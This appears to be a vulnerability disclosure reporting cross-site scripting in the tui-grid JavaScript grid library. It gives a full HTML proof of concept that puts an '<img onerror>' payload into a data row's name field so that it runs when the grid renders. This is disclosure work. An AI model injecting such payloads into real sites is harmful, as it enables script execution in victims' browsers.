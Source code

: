 # Description

`tui-grid` is vulnerable to `Cross-Site Scripting (XSS)`.

# Steps To Reproduce

Save and execute the following file in any browser
```
<html>
<head>
      <title>tui-grid</title>
</head>	  
<body>     
      <link rel="stylesheet" href="https://uicdn.toast.com/grid/latest/tui-grid.css" />
	  <script src="https://uicdn.toast.com/grid/latest/tui-grid.js"></script>
	   <div id="grid"></div>
      <script>   
        const grid = new tui.Grid({
      el: document.getElementById('grid'),
      data: [
  {
    id: 1,
    name: 'A Head Full Of Dreams"<img src=x onerror=alert(1)>',
    artist: 'Coldplay',
  },
  {
    id: 2,
    name: 'Moves Like Jagger',
    artist: 'Maroon5',
  },
  {
    id: 3,
    name: 'X',
    artist: 'Ed Sheeran',
  },
  {
    id: 4,
    name: 'Beautiful Lies',
    artist: 'Birdy',
  }
],
      scrollX: false,
      scrollY: false,
      columns: [
        {
          header: 'Name',
          name: 'name'
        },
        {
          header: 'Artist',
          name: 'artist'
        }
      ]
    });
    </script>
</body>
</html>
```
XSS payload will get executed.
